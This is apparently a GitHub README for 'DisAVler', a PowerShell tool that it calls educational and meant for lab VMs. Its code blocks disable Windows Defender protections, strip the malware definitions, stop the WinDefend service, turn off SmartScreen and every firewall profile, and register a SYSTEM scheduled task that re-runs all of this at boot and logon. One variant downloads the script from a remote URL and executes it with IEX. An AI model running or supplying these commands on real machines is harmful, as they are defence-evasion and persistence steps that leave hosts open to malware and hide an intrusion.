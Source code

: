 🧑‍🎓 This **_naive_** repo is created for educational purposes only [_and only for me!_]

Why **_naive_** ? Because if CloudProtection is enabled you won't go far! 🤷‍♂️ 

Why I created it? If you are in the same boat with me, _having a lab Windows VM that restarts WinDefend features every time on StartUp_, then you are at the right time, in the right place [probably] :)

Global connection NOT RECOMMENDED! ❌

# DisAVler
🚮 This is the repository that disables Windows Defender and its features on startup.

# AV Disabler [disAVler.txt]
## Offline
### Prepare the disablers [having DisAVler.txt on the host]:
Download the `disAVler.txt` file from repository into `C:\Windows\Tasks\`.

Or Execute this sh1t with PS [offline]:
```
echo 'Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender Security Center\Notifications" -Name "DisableEnhancedNotifications" -Type DWord -Value 1;' > C:\Windows\Tasks\DisAVler.txt;
echo 'Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name "DisableAntiSpyware" -Value 1;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer" -Name "SmartScreenEnabled" -Value "Off" -Force;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name "DisableAntiSpyware" -Value 1;' >> C:\Windows\Tasks\DisAVler.txt;
echo '$regPath = "HKCU:\Software\Microsoft\Windows\CurrentVersion\Notifications\Settings\Windows.SystemToast.SecurityAndMaintenance"
$propertyName = "Enabled"
$desiredValue = 0
if (-not (Test-Path $regPath)) {
    New-Item -Path $regPath -Force | Out-Null
};' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-ItemProperty -Path $regPath -Name $propertyName -Value $desiredValue -Force;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-NetFirewallProfile -Profile Domain,Private,Public -NotifyOnListen False;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-MpPreference -UILockdown $true;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'cd "C:\Program Files\Windows Defender";' >> C:\Windows\Tasks\DisAVler.txt;
echo '.\MpCmdRun.exe -removedefinitions -all;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Remove-MpPreference;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-MpPreference -DisableRealtimeMonitoring $true;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-MpPreference -SubmitSamplesConsent 2;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-MpPreference -DisableArchiveScanning $true;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-MpPreference -DisableEmailScanning $true;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-MpPreference -DisableScriptScanning $true;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-MpPreference -DisableIntrusionPreventionSystem $true;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-MpPreference -DisableIOAVProtection $true;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-MpPreference -DisableBehaviorMonitoring $true;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-MpPreference -DisableBlockAtFirstSeen $true;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-NetFirewallProfile -Profile Public -Enabled False;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-NetFirewallProfile -Profile Private -Enabled False;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-NetFirewallProfile -Profile Domain -Enabled False;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-MpPreference -MAPSReporting 0;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-MpPreference -PUAProtection 0;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-MpPreference -DisableCloudProtection $true;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Stop-Service -Name WinDefend -Force;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-Service -Name WinDefend -StartupType Disabled;' >> C:\Windows\Tasks\DisAVler.txt;
echo '$regPath = "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer";' >> C:\Windows\Tasks\DisAVler.txt;
echo '$propertyName = "SmartScreenEnabled"; >> C:\Windows\Tasks\DisAVler.txt;' >> C:\Windows\Tasks\DisAVler.txt;
echo '$desiredValue = "Off";' >> C:\Windows\Tasks\DisAVler.txt;
echo 'if (-not (Test-Path $regPath)) {
    New-Item -Path $regPath -Force | Out-Null
};' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-ItemProperty -Path $regPath -Name $propertyName -Value $desiredValue -Force;' >> C:\Windows\Tasks\DisAVler.txt;
```

### Setup Task Scheduler
Execute with PS for offline mode:
```
$Action = New-ScheduledTaskAction -Execute "powershell.exe" `
    -Argument '-Command "GET-Content -Raw C:\Windows\Tasks\DisAVler.txt | IEX"' `
    -WorkingDirectory "C:\Windows\System32"

$TriggerStartup = New-ScheduledTaskTrigger -AtStartup
$TriggerLogon   = New-ScheduledTaskTrigger -AtLogOn

$Principal = New-ScheduledTaskPrincipal -UserId "SYSTEM" -LogonType ServiceAccount -RunLevel Highest

$Settings = New-ScheduledTaskSettingsSet -AllowStartIfOnBatteries -StartWhenAvailable

$Task = New-ScheduledTask -Action $Action -Trigger $TriggerStartup, $TriggerLogon -Principal $Principal -Settings $Settings

Register-ScheduledTask -TaskName "DisAVlerOnBoot" -InputObject $Task
```


## Online
Execute with PS for online [having DisAVler.txt on another host]. 

Change https://raw.githubusercontent.com/DRAGOWN/DisAVling/refs/heads/main/DisAVler-Out0.txt with your hosted file:
```
$Action = New-ScheduledTaskAction -Execute "powershell.exe" `
    -Argument '-Command "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/DRAGOWN/DisAVling/refs/heads/main/DisAVler-Out0.txt')"' `
    -WorkingDirectory "C:\Windows\System32"

$TriggerStartup = New-ScheduledTaskTrigger -AtStartup
$TriggerLogon   = New-ScheduledTaskTrigger -AtLogOn

$Principal = New-ScheduledTaskPrincipal -UserId "SYSTEM" -LogonType ServiceAccount -RunLevel Highest

$Settings = New-ScheduledTaskSettingsSet -AllowStartIfOnBatteries -StartWhenAvailable

$Task = New-ScheduledTask -Action $Action -Trigger $TriggerStartup, $TriggerLogon -Principal $Principal -Settings $Settings

Register-ScheduledTask -TaskName "DisAVlerOnBoot" -InputObject $Task
```

### _Win or lose, blame yourself, if anything happens to you, because you are still alive_ 🫶🏻
<!-- [Giorgi Dograshvili]([url](https://www.linkedin.com/in/giorgi-dograshvili)) -->
